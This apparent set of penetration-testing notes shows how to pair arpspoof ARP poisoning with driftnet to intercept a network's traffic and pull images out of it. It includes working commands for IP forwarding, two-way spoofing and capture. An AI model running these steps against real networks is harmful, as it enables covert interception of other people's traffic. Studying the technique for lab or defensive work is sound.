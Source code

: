 ### Driftnet with ARP Poisoning

---

![Driftnet with ARP Poisoning](/images/sniffing/driftnet_with_ARP_Poisoning.png)
Driftnet watches network traffic, and picks out and displays JPEG and GIF images for display. It is a horrific invasion of privacy and shouldn’t be used by anyone anywhere. It can also extract MPEG audio data from the network and play it. If you live in a house with thick walls, this may be a useful way to find out about your neighbours’ musical taste.
[Source](https://github.com/deiv/driftnet)

### Installing:

```
sudo apt install driftnet
```

### Preparing the mechanine:

As root:

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

### ARP Poisoning:

As any user we have to create an arp poisoning in two different terminals:

```
sudo arpspoof -i tap0 -t <target 1 ip> -r <target 2 ip or gateway>
```

```
sudo arpspoof -i tap0 -t <target 2 ip or gateway> -r <target 1 ip>
```

In order to begin collecting images:

```
sudo driftnet -i <network interface>
```

The article image is a live example of HTTP delivered website and you can observe all the icons and the placeholder images.

